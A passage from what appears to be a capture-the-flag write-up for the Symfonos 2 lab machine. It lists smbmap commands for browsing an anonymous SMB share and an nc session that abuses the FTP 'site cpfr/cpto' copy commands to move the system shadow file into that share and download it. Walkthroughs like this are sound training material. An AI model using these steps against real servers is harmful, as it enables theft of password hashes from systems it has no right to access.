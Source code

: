
As we can see we can read the content inside the anonymous directory

````sh
smbmap -H 10.0.0.37 -r anonymous
`````

-r Recursively list dirs and files

This command display a directory called "backups" so lest do the same

````sh
smbmap -H 10.0.0.37 -r anonymous/backups
`````

Finally we found a file called "log.txt", we are goint to download it with the next command:

````sh
smbmap -H 10.0.0.37 --download anonymous/backups/log.txt
`````

This huge file contains information about the shadow file and the smb anonymous directory.
As we can see at the firts two lines root is copying the shadow file into /var/backups/shadow.bak also the absolute path of the anonymous shared file.


![FivPic]({{ '/assets/img/symfonos2/20240218124212.png' | relative_url }}){: .center }


Now lest take a look of the ftp service running.
If we search for the version details using searchsploit we will see that we can copy files from the server.

![SixPic]({{ '/assets/img/symfonos2/20240218124958.png' | relative_url }}){: .center }


Before exploiting it, we could review the code to see how it works.

````sh
searchsploit -x linux/remote/49908.py
`````

![SevPic]({{ '/assets/img/symfonos2/20240218125236.png' | relative_url }}){: .center }


As we can see, they are using copy from(cpfr) and copy to(cpto) to so lest try to do it connecting to the ftp server

`````sh
nc 10.0.0.37 21
site cpfr /var/backups/shadow.bak
site cpto /home/aeolus/share/shadow.bak
`````

![EigPic]({{ '/assets/img/symfonos2/20240218130425.png' | relative_url }}){: .center }

Now we will try to download it as we did with the log.txt file

````sh
smbmap -H 10.0.0.37 --download anonymous/shadow.bak
`````
